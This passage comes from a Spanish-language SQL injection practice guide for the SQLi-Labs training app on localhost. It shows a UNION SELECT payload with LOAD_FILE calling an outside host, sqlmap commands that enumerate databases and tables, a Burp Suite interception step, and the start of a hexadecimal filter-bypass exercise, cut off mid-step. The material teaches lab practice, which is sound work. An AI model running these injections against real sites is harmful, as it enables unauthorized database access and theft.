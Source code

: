 2. Ejecuta la inyección:

   ```sql
   http://localhost/sqli-labs/Less-1/?id=1' UNION SELECT 1,LOAD_FILE('http://192.168.1.10:8080/exploit.txt'),3 --+
   ```

# **📌 ATAQUES AVANZADOS Y AUTOMATIZACIÓN**

## **🔹 Práctica 11: Uso de SQLMap para Automatizar el Ataque**

📌 **Objetivo:** Extraer datos con SQLMap.

**Pasos:**

1. Ejecuta:

   ```sql
   sqlmap -u "http://localhost/sqli-labs/Less-1/?id=1" --dbs
   ```
   
2. Enumera tablas:

   ```sql
   sqlmap -u "http://localhost/sqli-labs/Less-1/?id=1" -D security --tables
   ```

------

## **🔹 Práctica 12: Uso de Burp Suite para Interceptar Peticiones**

📌 **Objetivo:** Modificar peticiones SQLi en tráfico HTTP.

**Pasos:**

1. Inicia **Burp Suite** y activa el **proxy**.
2. Captura una solicitud GET en SQLi Labs.
3. Modifica los parámetros y prueba inyecciones manualmente.

## **🔹 PRÁCTICA 13: Bypass de Filtros Usando Codificación Hexadecimal**

📌 **Objetivo:** Evadir filtrado de caracteres especiales mediante el uso de valores hexadecimales.

### **🔹 Explicación**

Algunas aplicaciones bloquean palabras clave como `'UNION'` o `'SELECT'`. Podemos **convertirlas en hexadecimal** para evadir el filtrado.

### **🔹 Paso a Paso**

1. Conviértete en hexadecimal la palabra `admin`:
